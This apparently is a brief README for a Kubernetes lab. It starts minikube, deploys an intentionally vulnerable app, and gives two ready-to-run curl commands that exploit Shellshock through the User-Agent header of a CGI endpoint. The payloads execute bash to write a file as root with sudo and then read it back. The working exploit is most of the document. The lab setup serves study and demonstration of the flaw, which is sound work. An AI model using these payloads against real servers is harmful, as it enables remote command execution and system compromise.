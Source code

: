 # How-to ?

## Kubernetes

Launch minikube :

```sh
minikube start --ports 8080:8080
```

Deploy the vulnerable app :

```sh
kubectl apply -f vuln.yaml
```

## Exploit

```sh
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo toto | sudo tee /test'" http://localhost:8080/cgi-bin/stats
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /test'" http://localhost:8080/cgi-bin/stats
```

